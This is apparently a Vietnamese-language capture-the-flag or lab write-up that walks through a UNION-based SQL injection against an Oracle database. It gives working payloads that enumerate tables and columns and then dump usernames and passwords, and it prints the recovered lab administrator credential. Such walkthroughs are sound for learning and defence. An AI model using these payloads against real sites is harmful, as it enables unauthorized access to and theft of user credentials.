


## SQL injection attack, listing the database contents on Oracle

1. Trước hết xác định số cột trong câu truy vấn mặc định và số cột có kiểu string bằng bảng ``dual`` trong Oracle.
Payload: 
- ```' UNION SELECT 'test','test' from dual --```
-> Xác định có 2 cột và cả 2 cột đều có kiểu dữ liệu string.

2. Trong Oracle thay vì dùng ``information_schema`` mà dùng ``all_tables``. Để lấy tên các bảng có trong database dùng payload:
- ```' UNION SELECT null,table_name FROM all_tables--``` 



-> Nhận thấy ``USERS_ZKMKPZ`` khá khả nghi.

3. Lấy tên cột trong ``USERS_ZKMKPZ`` với payload:
- ```' UNION SELECT null,column_name FROM ALL_TAB_COLUMNS WHERE table_name = 'USERS_ZKMKPZ'--```



4. Từ 2 cột phát hiện được ``PASSWORD_HARODL`` và ``USERNAME_XEIZNC``. Dùng truy vấn SELECT để xác định thông tin đăng nhập của các user.
Payload:
- ```' UNION SELECT USERNAME_XEIZNC,PASSWORD_HARODL FROM USERS_ZKMKPZ--```
-> Admin có thông tin đăng nhập là : ``administrator::8coya29y33uuucy7bjkr``